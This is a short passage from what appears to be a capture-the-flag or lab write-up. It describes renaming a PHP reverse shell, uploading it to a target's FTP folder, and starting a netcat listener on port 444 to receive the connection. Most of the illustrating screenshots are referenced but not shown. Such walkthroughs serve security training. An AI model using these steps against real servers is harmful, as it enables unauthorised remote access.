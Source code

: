 <figure><img src="../.gitbook/assets/Schermata del 2023-07-30 10-51-58.png" alt=""><figcaption></figcaption></figure>

Rename it:

```bash
mv php-reverse-shell.php shell.php
```

and put in ftp folder via FTP:

<figure><img src="../.gitbook/assets/Schermata del 2023-07-30 10-54-53.png" alt=""><figcaption></figcaption></figure>

and start netcat on the same reverse shell port (444):

```bash
nc -lvnp 444
```
